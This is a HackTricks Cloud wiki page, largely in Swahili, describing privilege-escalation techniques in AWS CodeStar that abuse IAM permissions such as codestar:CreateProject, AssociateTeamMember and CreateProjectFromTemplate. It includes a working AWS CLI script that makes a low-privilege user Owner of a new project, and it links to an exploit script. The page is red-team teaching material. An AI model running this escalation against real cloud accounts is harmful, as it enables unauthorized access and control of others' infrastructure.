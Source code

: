 # AWS - Codestar Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Codestar

Unaweza kupata maelezo zaidi kuhusu codestar katika:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

Kwa ruhusa hizi unaweza **kutumia codestar IAM Role** kufanya **vitendo vya kiholela** kupitia **cloudformation template**. Angalia ukurasa ufuatao:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Teknolojia hii inatumia `codestar:CreateProject` kuunda mradi wa codestar, na `codestar:AssociateTeamMember` kumfanya mtumiaji wa IAM kuwa **mmiliki** wa **mradi** mpya wa CodeStar, ambayo itawapa **sera mpya yenye ruhusa chache za ziada**.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Ikiwa wewe ni **mwanachama wa mradi** tayari unaweza kutumia ruhusa **`codestar:UpdateTeamMember`** kuboresha **nafasi yako** kuwa mmiliki badala ya `codestar:AssociateTeamMember`.

**Athari Zinazoweza Kutokea:** Privesc kwa sera ya codestar iliyoundwa. Unaweza kupata mfano wa sera hiyo katika:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Unda Mradi Mpya:**
* Tumia hatua ya **`codestar:CreateProjectFromTemplate`** kuanzisha uundaji wa mradi mpya.
* Baada ya uundaji kufanikiwa, ufikiaji unatolewa moja kwa moja kwa **`cloudformation:UpdateStack`**.
* Ufikiaji huu unalenga stack inayohusishwa na nafasi ya `CodeStarWorker-<jina la mradi wa kawaida>-CloudFormation`.
2. **Sasisha Stack Lengo:**
* Kwa ruhusa za CloudFormation zilizotolewa,endelea kusasisha stack iliyoainishwa.
* Jina la stack kawaida litafuata moja ya mifumo miwili:
* `awscodestar-<jina la mradi wa kawaida>-infrastructure`
* `awscodestar-<jina la mradi wa kawaida>-lambda`
* Jina halisi linategemea template iliyochaguliwa (angalia mfano wa script ya unyakuzi).
3. **Ufikiaji na Ruhusa:**
* Baada ya sasisho, unapata uwezo uliopewa **CloudFormation IAM role** iliyounganishwa na stack.
* Kumbuka: Hii haipatii moja kwa moja ruhusa kamili za msimamizi. Rasilimali zingine zisizo sahihi ndani ya mazingira zinaweza kuhitajika ili kuongeza ruhusa zaidi.

Kwa maelezo zaidi angalia utafiti wa asili: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Unaweza kupata unyakuzi katika [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)

**Athari Zinazoweza Kutokea:** Privesc kwa nafasi ya cloudformation IAM.

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki hila za unyakuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

